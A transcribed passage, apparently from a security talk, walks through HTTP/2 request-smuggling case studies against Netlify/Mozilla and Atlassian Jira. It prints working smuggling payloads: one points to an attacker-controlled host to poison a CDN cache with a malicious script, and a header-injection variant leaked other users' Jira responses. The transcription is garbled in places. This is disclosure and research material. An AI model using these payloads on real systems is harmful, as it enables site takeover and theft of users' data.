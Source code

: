 ```Back-end
\r\n
x=
```
such as  one that i control, and they had a cache so that effectively  let me do cache poisoning and take persistent control over every page of  every site on the netify cdn.
```Font-end
:method      POST
:authority   start.mozilla.org
:path        /
foo          b\r\n
            transfer-encoding: chunked
0\r\n
\r\n
GET / HTTP/1.1\r\n
Host: evil-netlify-domain\r\n
Content-Length: 5\r\n
\r\n
x=
GET /poisoned9.js HTTP/1.1
Host: start.mozilla.org
```
```Back-end
POST / HTTP/1.1\r\n
Host: start.mozilla.org\r\n
foo: b\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET / HTTP/1.1\r\n
Host: evil-netlify-domain\r\n
Content-Length: 5\r\n
\r\n
x=GET /poisoned9.js HTTP/1.1\r\n
Host: start.mozilla.org\r\n
```
for this i got 2k off netlife and 2k off  mozilla

### Case Study jira
when i tried the same technique on  atlassian enduro something really quite interesting happened. i expected to see  two responses coming back a normal one and a poisoned one, but i actually got a  huge range of responses clearly coming from  different jira deployments intended for different people  and containing a huge amount of sensitive information. as you can see here hopefully i would acted all the properly sensitive stuff. this left me one thing what exactly had happened, i did not expect that, and eventually i was able to figure it out and the problem: was  i had realized that using this new lines and headers technique i could place  my malicious prefix inside the value of the foo header and thereby avoid the  need for a body or using transfer encoding chunks or even needing to use  the post method. 
```
:method          GET
:authority       eco.atlassian.net
foo              bar
                 Host: eco.atlassian.net

GET /robots.txt HTTP/1.1
X-Ignore: x\r\n
\r\n
```
so i smuggled a request that looks like  this, and i thought i was doing the normal technique of sending 1.5 requests  to the back end, thereby poisoning the next request to hit the end point.  but i failed to account for the fact that the front end  because it viewed this injection as happening in the headers it was just  going to terminate the headers normally,
```Back-end
GET / HTTP/1.1
```